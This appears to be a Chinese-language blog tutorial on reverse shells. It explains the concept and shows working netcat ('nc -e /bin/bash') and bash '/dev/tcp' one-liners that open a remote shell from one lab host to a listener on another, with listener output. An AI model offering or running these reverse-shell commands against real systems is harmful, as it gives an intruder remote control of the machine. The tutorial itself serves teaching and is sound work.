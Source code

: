 ```yaml
---
title: 反弹 Shell
icon: reverse
date: 2023-4-12
category: Computer
tag:
    - Linux
---
```


## 什么是 Shell

Shell 就是实现用户命令的接口，通过这个接口我们就能实现对计算机的控制，比如我们常见的 ssh 就是执行的 Shell 命令实现对远程对服务器的控制。

## 什么是反弹 Shell

其英文名叫做 `Reverse Shell`，就是控制端首先监听某个 TCP/UDP 端口，然后被控制端向这个端口发起一个请求，同时将自己命令行的输入输出转移到控制端，从而控制端就可以输入命令来控制被控端了。

比如说，我们有两台主机 A、B，我们最终想实现在 A 上控制 B。那么如果用正向 Shell，其实就是在 A 上输入 B 的连接地址，比如通过 ssh 连接到 B，连接成功之后，我们就可以在 A 上通过命令控制 B 了。如果用反向 Shell，那就是在 A 上先开启一个监听端口，然后让 B 去连接 A 的这个端口，连接成功之后，A 这边就能通过命令控制 B 了。

## 反弹 Shell 的作用

当我们使用 A 控制 B，但由于被控端因防火墙受限、权限不足、端口被占用等无法直接连接。这时我们就要使用反弹 Shell 让 B 向 A 主动发起连接，我们就可以使用 A 来控制 B 了。

## 使用方法

|  控制端  |  被控制端  |
|  :----:  |  :----:  |
|  IP：192.168.4.151  |  IP：192.168.4.142  |
|  hostname：root@localhost  |  hostname：root@dev_03  |

1. 控制端和被控制端都安装 nc 命令

    ```bash
    yum -y install nc
    ```

2. 监听端口。在控制端上执行 `nc -lvvp 9999` 命令

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )  # 输出结果
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    ```

    - **-l**：监听模式，用于入站连接
    - **-vv**：`-vv` 比 `-v` 更详细的输出
    - **-p**：设置本地端口

3. 发起连接请求。在被控制端上执行 `nc -e /bin/bash [控制端的 IP] 9999` 命令

    ```bash
    root@dev_03:~# nc -e /bin/bash 192.168.4.151 9999
    ```

    - **-e**：绑定命令行

    ::: tip
    如果没有 `-e` 这个参数，是因为 `nc` 老版本没有这个选项的。需要安装 `netcat-traditional` 这个包，并执行 `update-alternatives --config nc` 这个命令，选择 `/bin/nc.traditional` 的编号，这里选择编号 `2` 即可
    :::

4. 控制端接收连接请求。被控制端发起连接请求后，查看控制端

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:39064.
    ```

5. 测试。控制端进行测试

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:39064.

    uname -a
    Linux dev_03 4.15.0-193-generic #204-Ubuntu SMP Fri Aug 26 19:20:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

    ifconfig ens33
    ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.4.142  netmask 255.255.255.0  broadcast 192.168.4.255
            inet6 fe80::20c:29ff:fe14:1e21  prefixlen 64  scopeid 0x20<link>
    ```

## 被控制端使用 bash 发起连接

被控制端也可以不用安装 nc 这个命令发起连接，可以直接使用 bash 来实现。

1. 监听端口。在控制端上执行 `nc -lvvp 9999` 命令

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )  # 输出结果
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    ```

2. 发起连接请求。在被控制端上执行 `bash -i >& /dev/tcp/[控制端的 IP]/9999 0>&1` 命令

    ```bash
    root@dev_03:~# bash -i >& /dev/tcp/192.168.4.151/9999 0>&1
    ```

    - **bash -i**：就是产生一个 bash 交互环境
    - **>&**：可以将 bash 交互环境的输入、输出、错误输出都输出到一个地方
    - **/dev/tcp/[控制端的 IP]/9999**：指的是目标主机的一个连接地址，因为 Linux 环境中所有内容的定义都是以文件的形式存在的，指定这个地址就是让主机和目标主机建立一个 TCP 连接
    - **0>&1**：可以将标准输入和标准输出相结合，重定向给前面标准输出的内容

    通过这样的命令，我们就可以就是将被控制端的标准输出和错误输出都重定向给控制端，并且将控制端的输入都重定向给被控制端，这样我们就可以实现控制端对被控制端的远程控制了。

3. 控制端接收连接请求。被控制端发起连接请求后，查看控制端，会显示被控制端的 localhost

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:34944.
    root@dev_03:~#
    ```

4. 测试。控制端进行测试

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:34944.
    root@dev_03:~#

    root@dev_03:~# uname -a
    uname -a
    Linux dev_03 4.15.0-193-generic #204-Ubuntu SMP Fri Aug 26 19:20:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
    root@dev_03:~#

    root@dev_03:~# ifconfig ens33
    ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.4.142  netmask 255.255.255.0  broadcast 192.168.4.255
            inet6 fe80::20c:29ff:fe14:1e21  prefixlen 64  scopeid 0x20<link>
    root@dev_03:~#
    ```
